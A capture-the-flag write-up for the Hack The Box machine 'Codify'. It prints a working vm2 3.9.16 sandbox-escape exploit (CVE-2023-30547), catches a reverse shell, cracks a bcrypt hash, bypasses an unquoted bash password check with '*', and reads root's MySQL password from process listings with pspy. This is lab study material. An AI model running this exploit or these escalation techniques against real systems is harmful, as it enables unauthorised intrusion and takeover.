




---
tags:
  - CVE-2023-30547
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Codify
- Reference : https://0xdf.gitlab.io/2024/04/06/htb-codify.html
- Solved : 2025.4.8. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**: Discovered open ports **22 (SSH)**, **80 (HTTP)**, and **3000 (Node.js)**.
    - **Web Enumeration**:
        - `/editor` page allows **JavaScript execution**, using the `vm2` library (v3.9.16).
        - Version is vulnerable to **sandbox escape**.
            
2. **Shell as `svc`**
    - **vm2 Sandbox Escape**:
        - Used [Exploit-DB 51898](https://www.exploit-db.com/exploits/51898) to escape the sandbox and execute a **reverse shell**.
        - Gained shell access as user **`svc`**.
            
3. **Shell as `joshua`**
    - **Database Enumeration**:
        - Found SQLite database `tickets.db` in `/var/www/contact`.
        - Extracted bcrypt hash for `joshua`.
    - **Password Cracking**:
        - Cracked hash using `hashcat`: password is **`spongebob1`**.
        - Used credentials to SSH as **`joshua`**.
            
4. **Shell as `root`**
    - **Sudo Privilege**:
        - `joshua` can run `/opt/scripts/mysql-backup.sh` as **root** via `sudo`.
    - **Password Prompt Bypass**:
        - Script compares `$DB_PASS == $USER_PASS` without quotes.
        - Bypassed check by entering `*`, which matches any string due to glob pattern.
    - **Credential Leakage**:
        - Script uses `$DB_PASS` in `mysqldump` command.
        - Used `pspy` to capture full command with root MySQL password in arguments.
        - Logged in as **root** using captured password.

### Key Techniques:

- **Sandbox Escape**: via vulnerable `vm2` version (3.9.16).
- **Credential Extraction**: SQLite DB + bcrypt hash cracking.
- **Bash Globbing Abuse**: bypassed password comparison with `*`.
- **Privilege Escalation**: snooped root's password via `pspy` and `mysqldump` command.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/codify]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.239
Performing quick port scan on 10.10.11.239...
Found open ports: 22,80,3000
Performing detailed scan on 10.10.11.239...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 20:37 MDT
Nmap scan report for 10.10.11.239
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.79 seconds
```

Let's add `codify.htb` domain to `/etc/hosts`.

### http(80)



It seems that the web allows testing javascript code.

```bash
┌──(kali㉿kali)-[~/htb/codify]
└─$ gobuster dir -u http://codify.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codify.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 2921]
/About                (Status: 200) [Size: 2921]
/editor               (Status: 200) [Size: 3123]
```

The page `/editor` seems to take javascript code and run it.



According to `About Us` page explanation, the `/eidtor` page is using `vm2` library.


The link on the page is redirected to github repository of which version is 3.9.16.


# Shell as `svc`

### vm2 sandbox escape

I googled with the keywords "vm2", "3.9.16", and found one exploit leading to RCE vulnerability : https://www.exploit-db.com/exploits/51898

```javascript
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

Using the PoC, I can open a reverse shell.



Although it fails apparently, listener opens a shell.

```shell
┌──(kali㉿kali)-[~/htb/codify]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.239] 51970
sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
$ whoami
svc
```

I got a shell as `svc`!


# Shell as `joshua`

### Enumeration

There are 3 web directories found on `/var/www`.

```bash
svc@codify:/var/www$ ls -al
ls -al
total 20
drwxr-xr-x  5 root root 4096 Sep 12  2023 .
drwxr-xr-x 13 root root 4096 Oct 31  2023 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12  2023 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12  2023 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```

In `/var/www/contact` there's a suspicious DB file : `tickets.db`

```bash
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db

svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

### Analyze sqlite file

Let's move this file to Kali and analyze it.
With `sqlitebrowser` openning the `tickets.db` file, I can read hash for `joshua`.



```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Let's crack it using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/codify]
└─$ hashcat -m 3200 hash --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

...SNIP...

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2

...SNIP...
```

```bash
┌──(kali㉿kali)-[~/htb/codify]
└─$ ssh joshua@codify.htb   
The authenticity of host 'codify.htb (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

...SNIP...

Last login: Wed Mar 27 13:01:24 2024 from 10.10.14.23
joshua@codify:~$ 
```

I got `joshua`'s shell.


# Shell as `root`

### Enumeration

The user `joshua` can do `sudo` on a shell script named `mysql-backup.sh`.

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Sorry, try again.
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Let's read the script.

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

It stores `DB_PASS` in `/root/.creds`.
It stores all backups from the database in `/var/backups/mysql`.

### Insecure Bash comparison sequence

Another point to focus is the comparison sequence between `$DB_PASS` and `$USER_PASS`.
Since they are not quoted with double quotes(""), the right-handed side can be counted as patterns.

Also, the backup command line has also an issue that it's using `$DB_PASS` instead of `$USER_PASS`.

They imply that if we can bypass the password input prompt, I can run the following commands with saved credential.
Since the password is included in the command lines, it can potentially be exposed by monitoring(e.g. pspy).

Let's by pass the password prompt using `*`.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Then, `pspy64` captures the command lines.

```bash
joshua@codify:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░  

...SNIP...

2025/04/08 07:03:39 CMD: UID=0     PID=21348  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql                   
2025/04/08 07:03:39 CMD: UID=0     PID=21351  | /bin/bash /opt/scripts/mysql-backup.sh                                                                
2025/04/08 07:03:39 CMD: UID=0     PID=21353  | /bin/bash /opt/scripts/mysql-backup.sh                                                                
2025/04/08 07:03:39 CMD: UID=0     PID=21352  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys         
```

The exposed password is `kljh12k3jhaskjh12kjh3`.

Let's switch user to `root` using the password.

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# whoami
root
root@codify:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got a root shell!